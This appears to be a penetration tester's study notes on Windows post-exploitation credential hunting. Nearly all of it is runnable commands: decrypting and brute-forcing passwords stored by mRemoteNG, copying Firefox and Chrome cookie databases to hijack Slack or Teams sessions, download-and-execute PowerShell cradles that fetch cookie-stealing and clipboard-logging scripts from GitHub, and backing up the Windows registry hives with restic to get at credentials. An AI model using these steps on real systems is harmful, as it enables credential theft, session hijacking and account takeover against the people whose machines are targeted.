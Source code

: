 ## Data Sources
- Installed applications
- Installed services
  - Websites
  - File Shares
  - Databases
  - Directory Services (such as Active Directory, Azure AD, etc.)
  - Name Servers
  - Deployment Services
  - Certificate Authority
  - Source Code Management Server
  - Virtualization
  - Messaging
  - Monitoring and Logging Systems
  - Backups
- Sensitive Data
  - Keylogging
  - Screen Capture
  - Network Traffic Capture
  - Previous Audit reports
- User Information
  - History files, interesting documents (.doc/x,.xls/x,password./pass., etc)
  - Roles and Privileges
  - Web Browsers
  - IM Clients
 

**Identifying Common Applications
```
dir "C:\Program Files"
```

**Get Installed Programs via PowerShell & Registry Keys
```
$INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize
```
- Contains mRemoteNG

**mRemoteNG

Saves connection info and credentials to a file called confCons.xml located at (%USERPROFILE%\APPDATA\Roaming\mRemoteNG). Hardcoded master password: mR3m

**Discover mRemoteNG Configuration Files
```
ls C:\Users\julio\AppData\Roaming\mRemoteNG
```

**mRemoteNG Configuration File - confCons.xml
```xml
<?XML version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="QcMB21irFadMtSQvX5ONMEh7X+TSqRX3uXO5DKShwpWEgzQ2YBWgD/uQ86zbtNC65Kbu3LKEdedcgDNO6N41Srqe" ConfVersion="2.6">
    <Node Name="RDP_Domain" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="096332c1-f405-4e1e-90e0-fd2a170beeb5" Username="administrator" Domain="test.local" Password="sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" Hostname="10.0.0.10" Protocol="RDP" PuttySession="Default Settings" Port="3389"
    ..SNIP..
</Connections>
```
- If the user did not set a custom master password, we can use this script to decrypt the password: https://github.com/haseebT/mRemoteNG-Decrypt

**Decrypt the Password with mremoteng_decrypt
```
python3 mremoteng_decrypt.py -s "sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" 
```

**Decrypt the Password with mremoteng_decrypt and a Custom Password
```
python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p admin
```

**For Loop to Crack the Master Password with mrmeoteng_decrypt
```
for password in $(cat /usr/share/wordlists/fasttrack.txt);do echo $password; python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p $password 2>/dev/null;done
```

## Abusing Cookies to Get Access to IM Clients

IM = instant messaging
- Microsoft Teams
- Slack

**Copy Firefox Cookies Database
```
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```

**Extract Slack Cookie from Firefox Cookies Database
https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py
```
python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d
```

**Add cookie to our browser with extension
https://cookie-editor.cgagnier.ca/


## Cookie Extraction from Chromium-based Browsers

**PowerShell Script - Invoke-SharpChromium
```ps
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')
Invoke-SharpChromium -Command "cookies slack.com"
```

**Copy Cookies to SharpChromium Expected Location
```
copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"
```

**Invoke-SharpChromium Cookies Extraction
```
Invoke-SharpChromium -Command "cookies slack.com"
```


## Clipboard

https://github.com/inguardians/Invoke-Clipboard/blob/master/Invoke-Clipboard.ps1

**Monitor the Clipboard with PowerShell
```
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
Invoke-ClipboardLogger
```
- Metasploit has built-in keylogger


## Roles and Services

Servers:
- File and Print Servers
- Web and Database Servers
- Certificate Authority Servers
- Source Code Management Servers
- Backup Servers

**Attacking Backup Servers

**restic - Initialize Backup Directory
```
mkdir E:\restic2; restic.exe -r E:\restic2 init
```

**restic - Back up a Directory
```
$env:RESTIC_PASSWORD = 'Password'
restic.exe -r E:\restic2\ backup C:\SampleFolder
```

**restic - Back up a Directory with VSS
```
restic.exe -r E:\restic2\ backup C:\Windows\System32\config --use-fs-snapshot
```

**restic - Check Backups Saved in a Repository
```
restic.exe -r E:\restic2\ snapshots
```

**restic - Restore a Backup with ID
```
restic.exe -r E:\restic2\ restore 9971e881 --target C:\Restore
```
- If we navigate to C:\Restore, we will find the directory structure where the backup was taken

